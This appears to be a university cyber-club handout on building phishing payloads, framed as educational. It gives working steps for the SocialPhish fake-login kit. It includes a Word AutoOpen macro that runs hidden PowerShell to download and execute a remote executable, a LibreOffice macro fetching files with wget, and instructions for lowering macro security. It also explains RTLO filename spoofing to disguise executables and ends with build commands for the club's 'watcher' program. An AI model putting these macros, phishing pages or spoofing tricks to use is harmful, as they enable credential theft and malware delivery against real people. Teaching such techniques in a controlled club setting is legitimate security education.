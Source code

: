 # Making a Phishing Payload
The content shared and discussed in this club meeting is for educational purposes only

I have made a harmless program at <https://umlcyber.club/watcher_1.exe> for you to download and run as part of your macros. It is not malicious, but it is annoying to remove. So don't run it on your main Windows computer!
## Social Phish
UML blocks serveo.net because it is malware. So you will need to use a VPN or the Cyber Range computers.

> git clone https://github.com/pvanfas/socialphish.git
> cd socialphish
> chmod +x socialphish.sh
> ./socialphish

When it says "Choose an option", type the number of the login form you want to make.

When it says "Choose a port forwarding option", just press enter.

When it says "Choose a port", just press enter.

Go to the URL it gives you. Fake login page. Pretty sweet!

## Macros
### Windows
You can install microsoft office using your UML email account.

To make a new macro, go to "View" -> "Macros" -> "View Macros" -> "Create" (you need to give it a name first)

When saving your file, go to `Save As` and save it as a `Word Macro-Enabled Document (*.docm)`
```
Sub AutoOpen()
'
' AutoOpen Macro
'
'
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    
    Dim strCommand As String
    strCommand = "powershell -windowstyle hidden -command ""Invoke-WebRequest -Uri 'https://andrewbernal.com/watcher_1.exe' -OutFile '.\Downloads\watcher_1.exe'; .\Downloads\watcher_1.exe"""
    
    objShell.Run strCommand
    
    Set objShell = Nothing
End Sub
```
### Linux
LibreOffice has good security defaults! By default, only signed macros from trusted sources can run. To run your macros, you will have to lower the security level.

To lower the security level, go to "Tools" -> "Options" -> "Security" tab -> "Macro Security" and set it to Medium or Low.

You can get a shell with linux macros, and then do whatever you want. For example:
```
Sub DownloadFile
    Shell("wget https://example.com/file.zip -O /path/to/save/file.zip")
End Sub
```

## RTLO Character
The RTLO character stands for Right-To-Left Override. It is a non-printing Unicode character, represented by the Unicode character code U+202E1. This character is used to write languages that are read in the right-to-left manner, such as Hebrew, Arabic, Aramaic, and Urdu. It takes the input and literally just flips the text the other way round.

The RTLO character can be used to reverse the display of text that follows it. For example, a Windows screensaver executable named March 25 \u202Excod.scr will display as March 25 rcs.docx. Adversaries may abuse the RTLO character as a means of tricking a user into executing what they think is a benign file type.

Get the character here: <https://unicode-explorer.com/c/202E>

## watcher_1.exe malware
> windres icon.rc -o icon.o
> g++ watcher_1.cpp icon.o -o watcher_1.exe -static -lpsapi